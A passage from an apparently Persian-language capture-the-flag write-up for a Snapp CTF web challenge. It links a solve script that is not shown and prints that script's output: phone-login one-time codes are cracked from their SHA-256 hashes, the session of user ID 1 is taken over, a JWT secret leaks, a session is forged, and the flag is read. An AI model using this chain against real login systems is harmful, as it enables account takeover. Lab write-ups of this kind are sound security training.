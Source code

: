 </center>

برای حل این سوال من یک اسکریپت پایتون آماده کردم که میتونین از روی اون سوال رو حل کنین و بررسی کنین که چه اتفاقی میوفته

- [snappcat.py](../../../../uploads/snappcat.py)

بعد از دانلود فایل پایتون:

```sh
$ python3 snappcat.py
[+] registering with 2af8ba4edba03309: 
[+] response:  {'success': True}
[+] logging in with 2af8ba4edba03309
[+] resposne:  {'success': True}
[+] login with phone: +987714270933
[+] response: 200
[+] crack the code for sha256:04dc6d4a58836dce23191b5025d392f911a58c61452c580f79c9ec53f86b1ee6
[+] code cracked: 3189328
[+] send code
[+] login-with-phone-callback response:  {'sucess': True}
[+] send verification email
[+] response: 200
[+] verify account
[+] response: 200
[+] login with phone: +133731333717
[+] response: 200
[+] crack the code for sha256:98fbf94b5485944c2325c846ec6234b6b7008c62dd2d17728b77ebef038ab5bd
[+] code cracked: 7494977
[+] send code
[+] login-with-phone-callback response:  {'sucess': True}
[+] whoami?:  {'data': {'userId': 1}, 'success': True}
[+] create cat
[+] cat created with id: 62fd96ac-d0fe-4632-b7be-d2e873471acc
[+] display and get created cat
----------------------------------------------------------------------------------------------------
JWT SECRET: omidvaram-to-ke-ino-mibini-developer-website-bashi-fd29293cdeaf70dc67b420e73a37e172
----------------------------------------------------------------------------------------------------
[+] update jwt session
[+] reading flag xd
FLAG: SNAPP{7dc998269394314896af6378f15c2c12}
```


??? success "FLAG :triangular_flag_on_post:"
    <div dir="ltr">`SNAPP{7dc998269394314896af6378f15c2c12}`</div>

---

# Snapp fal!

<center>
